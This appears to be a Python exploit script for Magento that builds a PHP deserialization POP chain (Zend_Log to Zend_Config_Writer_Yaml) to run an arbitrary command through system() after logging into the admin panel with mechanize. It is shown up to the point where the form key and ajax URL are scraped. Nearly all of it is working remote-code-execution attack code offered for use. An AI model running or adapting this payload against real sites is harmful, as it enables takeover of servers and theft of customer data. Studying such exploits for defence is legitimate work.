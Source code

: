# CVE : none

from hashlib import md5
import sys
import re
import base64
import mechanize


def usage():
    print "Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\""
    sys.exit()


if len(sys.argv) != 3:
    usage()

# Command-line args
target = sys.argv[1]
arg = sys.argv[2]

# Config.
username = 'try'
password = 'again'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml

# POP chain to pivot into call_user_exec
payload = 'O:8:\"Zend_Log\":1:{s:11:\"\00*\00_writers\";a:2:{i:0;O:20:\"Zend_Log_Writer_Mail\":4:{s:16:' \
          '\"\00*\00_eventsToMail\";a:3:{i:0;s:11:\"EXTERMINATE\";i:1;s:12:\"EXTERMINATE!\";i:2;s:15:\"' \
          'EXTERMINATE!!!!\";}s:22:\"\00*\00_subjectPrependText\";N;s:10:\"\00*\00_layout\";O:23:\"'     \
          'Zend_Config_Writer_Yaml\":3:{s:15:\"\00*\00_yamlEncoder\";s:%d:\"%s\";s:17:\"\00*\00'     \
          '_loadedSection\";N;s:10:\"\00*\00_config\";O:13:\"Varien_Object\":1:{s:8:\"\00*\00_data\"' \
          ';s:%d:\"%s\";}}s:8:\"\00*\00_mail\";O:9:\"Zend_Mail\":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
                                                                                     len(arg), arg)
# Setup the mechanize browser and options
br = mechanize.Browser()
#br.set_proxies({"http": "localhost:8080"})
br.set_handle_robots(False)

request = br.open(target)

br.select_form(nr=0)
br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
br.form.fixup()
br['login[username]'] = username
br['login[password]'] = password

br.method = "POST"
request = br.submit()
content = request.read()

url = re.search("ajaxBlockUrl = \'(.*)\'", content)
url = url.group(1)
key = re.search("var FORM_KEY = '(.*)'", content)
key = key.group(1)
